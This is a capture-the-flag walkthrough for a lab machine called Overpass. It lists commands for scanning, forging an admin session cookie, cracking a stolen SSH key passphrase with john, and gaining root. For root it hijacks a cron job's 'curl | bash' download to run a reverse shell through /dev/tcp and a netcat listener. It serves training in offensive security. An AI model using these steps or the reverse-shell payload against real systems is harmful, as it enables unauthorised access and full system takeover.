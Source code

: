 # Overpass

- Hack the machine and get the flag in user.txt

	- `nmap -sV -p- <TARGET_IP>`
	- `scilla dir -target <TARGET_IP>`
	- There is a `/admin/` page and a `cookie.js` file...... ahahaha
	- Inspect a bit the code, in particular `cookie.js` and `login.js`.
	- Create a cookie called `sessionToken` with value `admin`.
	- Refresh the `/admin/` page.
	- Copy the RSA private key into a file called `id_rsa`.
	- Move this file into `~/.ssh`.
	- `chmod 700 ~/.ssh/id_rsa`
	- `ssh james@<TARGET_IP>`
	- Noo. We need the passphrase.
	- `/usr/share/john/ssh2john.py ~/.ssh/id_rsa > key.txt`
	- `john key.txt --wordlist=/usr/share/wordlists/rockyou.txt`
	- `*******`
	- Try with ssh and insert password.
	- `cat user.txt`
	- `thm{********************************}`

- Escalate your privileges and get the flag in root.txt

	- `cat todo.txt`. Mhh...
	- `cat .overpass`
	- Copy that code.
	- Insert into CyberChef with recipe `ROT47`.
	- `[{"name":"******","pass":"********************"}]`
	- But these are just the credentials of james...
	- `cat /etc/crontab`
	~~~
	# Update builds from latest code
	* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`
	~~~
	- Mhhh...
	- Edit `/etc/hosts` file inserting `<YOUR_IP>	overpass.thm` and deleting the previous one.
	- On your machine create `/downloads/src/buidscript.sh` and write into it `bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1;`
	- On your machine `python3 -m http.server 80`
	- On your machine `nc -lnvp 1234`
	- After a while that cronjob will be executed and you get a reverse root shell.
	- `cat root.txt`
	- `thm{********************************}`




